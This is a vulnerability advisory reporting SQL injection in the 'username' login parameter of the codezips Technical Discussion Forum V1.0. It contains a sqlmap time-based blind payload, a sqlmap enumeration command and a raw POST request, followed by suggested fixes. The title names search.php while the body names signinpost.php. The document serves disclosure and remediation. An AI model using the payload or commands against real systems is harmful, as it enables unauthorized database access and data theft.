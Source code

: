 # Technical Discussion Forum Using PHP With Source Code  V1.0 search.php SQL injection

## NAME OF AFFECTED PRODUCT(S)

- ` Technical Discussion Forum Using PHP With Source Code V1.0`

## Vendor Homepage
- https://codezips.com/php/technical-discussion-forum-using-php-with-source-code/

## Software Link
- https://codeload.github.com/codezips/Technical-Discussion-Forum/zip/master

## Vendor

- `codezips`

## Vulnerability Type

- `SQL injection`

## Root Cause

- A SQL injection vulnerability was found in the 'signinpost.php' file of  the 'Technical Discussion Forum Using PHP With Source Code ' project. The reason for this issue is that attackers inject malicious code from the parameter  'username' and use it directly in SQL queries without the need for  appropriate cleaning or validation. This allows attackers to forge input values, thereby manipulating SQL queries and performing unauthorized  operations.

  ![](./image/1.png)

## Impact

- Attackers can exploit this SQL injection vulnerability to achieve  unauthorized database access, sensitive data leakage, data tampering,  comprehensive system control, and even service interruption, posing a  serious threat to system security and business continuity.

## DESCRIPTION

- During the security review of "Technical Discussion Forum Using PHP With Source Code", zhangjiale  discovered a critical SQL injection vulnerability in the "signinpost.php" file. This vulnerability stems from insufficient  user input validation of the 'username' parameter, allowing attackers to inject malicious SQL queries. Therefore, attackers can gain  unauthorized access to databases, modify or delete data, and access  sensitive information. Immediate remedial measures are needed to ensure  system security and protect data integrity.

## Vulnerability details and POC

Vulnerability Name: Username Parameter

```
sqlmap resumed the following injection point(s) from stored session:
Parameter: username (POST)
Type: time-based blind
Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
Payload: username=test' AND (SELECT 7188 FROM (SELECT(SLEEP(5)))JiSV) AND 'CsMe'='CsMe&password=12323&submit=SignIn
```

<img src="./image/2.png" style="zoom:150%;" />

```
//sqlmap
python sqlmap.py -r url.txt --current-db --current-user --is-dba
```

```
poc
POST /signinpost.php HTTP/1.1
Host: 192.168.75.220
Content-Length: 42
Cache-Control: max-age=0
Origin: http://192.168.75.220
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.75.220/signin.php
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: metabase.DEVICE=e51030e7-51d8-429c-b737-59e6ee18ae6c; __test=1; PHPSESSID=9vhd24i6sjknqqcj80ddhqsbj3
Connection: close

username=test&password=12323&submit=SignIn
```

## Suggested fixes

1. **Use prepared statements and parameter binding:**
    Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepare statements, the value entered  by the user is treated as pure data and will not be interpreted as SQL  code.
2. **Input validation and filtering:**
    Strictly validate and filter user input data to ensure it conforms to the expected format.
3. **Regular security audits:**
    Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.
